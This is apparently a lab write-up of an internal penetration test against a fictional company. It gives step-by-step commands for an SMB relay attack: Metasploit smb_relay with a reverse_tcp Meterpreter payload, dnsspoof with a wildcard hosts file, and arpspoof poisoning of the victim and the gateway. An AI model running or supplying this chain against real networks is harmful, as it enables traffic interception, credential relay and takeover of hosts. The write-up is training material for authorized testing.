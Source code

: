 # Internal Penetration Test – Slytherin Solutions

## Scenario

You have been hired by Slytherin Solutions, a mid-sized technology company, to conduct a security assessment. The company wants to evaluate potential risks within its internal network and has authorized a controlled penetration test within the defined scope.

**Scope & Rules of Engagement**

- The penetration test is internal, meaning you are connected directly to their LAN.

- The network range for testing is 192.168.50.0/24.

- No credential brute-forcing to avoid locking out user accounts.

- Focus on network-based attacks, specifically SMB Relay and DNS spoofing.


**Objectives**

- Exploit misconfigurations using SMB Relay Attack.

- Manipulate network traffic using dnsspoof to redirect victims.


**Skills & Techniques Covered**

* Performing SMB Relay attacks against patched systems.
* Using dnsspoof to manipulate network traffic and redirect requests.
* Leveraging Metasploit for exploitation and session management.

**Tools Required**

- dnsspoof (for ARP and DNS spoofing)

- Metasploit Framework (for SMB relay exploitation)

## SMB Relay Attack Execution
In this scenario, I launched an SMB Relay Attack to intercept and relay authentication requests from a client machine to a target system, ultimately gaining a Meterpreter shell.

**Attack Flow**

* A client machine (192.168.50.12, running Windows 7) automatically attempts an SMB connection to \\fileserver.slytherin.com\wallet$ every 30 seconds.

* The attacker machine (192.168.50.23) spoofs the IP address of fileserver.slytherin.com to redirect SMB traffic.
* The client unknowingly connects to the attacker's machine instead of the real fileserver.slytherin.local.
*  The SMB Relay exploit (running on the attacker machine) captures and relays the authentication request to a vulnerable target (192.168.50.4).
*  The exploit successfully authenticates on the target and delivers a Windows Meterpreter shell, granting access to the system.

**Attack Execution**

Step 1: Start msfconsole and configure the SMB Relay exploit

````bash
msfconsole
use exploit/windows/smb/smb_relay
set SRVHOST 192.168.50.23
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.50.23
set SMBHOST 192.168.50.4
exploit
````

Step 2: In a new tab, configure dnsspoof in order to redirect the victim to our Metasploit system every time there's an SMB connection to any host in the domain: slytherin.com. Create a file with fake dns entry with all subdomains of
slytherin.com pointing to our attacker machine.

````bash
echo "192.168.50.23 *.slytherin.com" > hosts
````

- run dns spoof in the same tab

````bash
dnsspoof -i eth1 -f hosts
````

image

Step 3: Activate the MiTM attack using the ARP Spoofing technique. My goal is to poison the traffic between my victim, Windows 7 at 192.168.50.12, and the default gateway at 192.168.50.1. In this way, I can manipulate the traffic using dnsspoof, which is already running. 
In order to perform an ARP Spoofing attack, I enabled the IP forwarding as follow in a new tab (3):

````bash
echo 1 > /proc/sys/net/ipv4/ip_forward
````

In two separate terminals, start the ARP Spoof attack against 192.168.50.12 and 192.168.50.1 using these commands:

````bash
arpspoof -i eth1 -t 192.168.50.12 192.168.50.1
arpspoof -i eth1 -t 192.168.50.1 192.168.50.12
````
image

image

So, every time the victim starts an SMB connection, dnsspoof aligned with the ARP Spoof attack, forges the DNS replies telling that the searched DNS address is hosted at the attacker machine:

image

* Then instead of getting a DNS response with the real IP address of fileserver.slytherin.com, it received the IP of the attacker: 192.168.50.23. In Metasploit, every time there is an incoming SMB connection, the SMB Relay exploit
grabs the SMB hashes (credentials) and then uses them to get a shell on the target machine (192.168.5.4) - since it was set in the SMBHOST field of the smb-relay exploit.

image

## Key Takeaway
In this lab, I were able to trick the client by spoofing DNS records, this, in turn, combined with SMB relay attack, provided us with a meterpreter session on the target machine with administrative privileges.
